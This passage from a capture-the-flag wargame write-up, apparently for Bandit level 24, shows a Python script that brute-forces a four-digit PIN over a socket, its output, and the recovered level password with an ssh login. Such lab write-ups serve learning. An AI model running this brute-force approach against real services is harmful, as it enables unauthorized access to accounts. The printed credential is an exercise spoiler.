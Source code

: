    # Print Welcome Message
    welcome_msg = s.recv(2048)
    print(welcome_msg)

    # Try Brute-Forcing
    while pincode < 10000:
        pincode_string = str(pincode).zfill(4)
        message=password+" "+pincode_string+"\n"

        # Send Message
        s.sendall(message.encode())
        receive_msg = s.recv(1024)

        # Check Result
        if "Wrong" in receive_msg:
            print("Wrong PINCODE: %s" % pincode_string)
        else:
            print(receive_msg)
            break
        pincode += 1

finally:
    sys.exit(1)

python ./bruteforce.py

Let it run. This will take time.
...
Wrong PINCODE: 2577
Wrong PINCODE: 2578
Wrong PINCODE: 2579
Wrong PINCODE: 2580
Wrong PINCODE: 2581
Wrong PINCODE: 2582
Wrong PINCODE: 2583
Wrong PINCODE: 2584
Wrong PINCODE: 2585
Wrong PINCODE: 2586
Wrong PINCODE: 2587
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

ssh bandit25@localhost
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Done!

---
